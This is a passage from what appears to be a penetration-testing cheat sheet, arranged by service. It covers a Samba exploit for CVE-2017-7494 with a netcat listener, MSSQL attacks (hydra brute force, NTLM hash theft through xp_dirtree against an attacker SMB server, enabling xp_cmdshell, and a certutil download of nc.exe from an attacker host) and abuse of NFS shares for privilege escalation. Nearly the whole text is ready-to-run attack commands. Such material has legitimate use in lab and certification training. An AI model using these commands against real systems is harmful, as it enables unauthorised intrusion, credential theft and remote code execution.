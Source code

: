   - Build
    - `gcc -o test.so -shared poc.c -fPIC`
  - Start a listener
    - `nc -lvp <PORT>`

  - Exploit
    - `./cve_2017_7494.py -t <TARGET_IP> -u <USER> -P <PASSWORD> --custom=test.so`


## MSSQL - 1433
- Get information
  - `nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>`

- Brute force
  - `hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mssql -vV -I -u`

- Having credentials
  - `mssqlclient.py -windows-auth <DOMAIN>/<USER>:<PASSWORD>@<IP>`
  - `mssqlclient.py <USER>:<PASSWORD>@<IP>`

- Once logged in you can run queries:
  - `SQL> select @@ version;`

- Steal NTLM hash
  - `sudo smbserver.py -smb2support liodeus .`
  - `SQL> exec master..xp_dirtree '\\<IP>\liodeus\' # Steal the NTLM hash, crack it with john or hashcat`

- Try to enable code execution
  - `SQL> enable_xp_cmdshell`

- Execute code
  - `SQL> xp_cmdshell whoami /all`
  - `SQL> xp_cmdshell certutil.exe -urlcache -split -f http://<IP>/nc.exe`

- Manual exploit
  - Cheatsheet :
    - <https://www.asafety.fr/mssql-injection-cheat-sheet/>


## NFS - 2049
- [Guide](https://www.youtube.com/watch?v=FlRAA-1UXWQ&feature=youtu.be)
- Show Mountable NFS Shares
  - `showmount -e <IP>`
  - `nmap --script=nfs-showmount -oN mountable_shares <IP>`

- Mount a share
  - `sudo mount -v -t nfs <IP>:<SHARE> <DIRECTORY>`
  - `sudo mount -v -t nfs -o vers=2 <IP>:<SHARE> <DIRECTORY>`

- NFS misconfigurations
  - List exported shares
    - `cat /etc/exports`
    - If you find some directory that is configured as no_root_squash/no_all_squash you may be able to privesc.
